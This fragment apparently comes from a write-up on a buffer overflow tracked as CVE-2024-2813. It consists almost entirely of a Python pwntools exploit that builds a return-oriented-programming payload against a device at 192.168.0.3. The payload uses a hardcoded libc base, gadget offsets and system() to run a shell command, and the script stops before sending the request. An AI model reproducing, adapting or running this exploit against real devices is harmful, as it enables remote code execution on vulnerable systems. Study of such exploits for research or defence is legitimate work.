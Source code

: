 ![image-20250227091105210](./assets/CVE-2024-2813缓冲区溢出/image-20250227091105210.png)

exp：

```python
import requests
from pwn import *

target_ip = "192.168.0.3"
target_port = 80 

libc_base = 0x76dab000 
readable_addr = libc_base + 0x64144 # string 'HOME'
system_offset = 0x5A270 
mov_r0_sp__blx_r3__offset = 0x49c64
pop_r3_pc_offset = 0x18298

cmd = b'ps>proc_info.txt'

payload = b'a' * (0x60) + p32(readable_addr) + b'b' * (0x1c-4) 
payload += p32(libc_base + pop_r3_pc_offset)
payload += p32(libc_base + system_offset)
payload += p32(libc_base + mov_r0_sp__blx_r3__offset) + cmd
```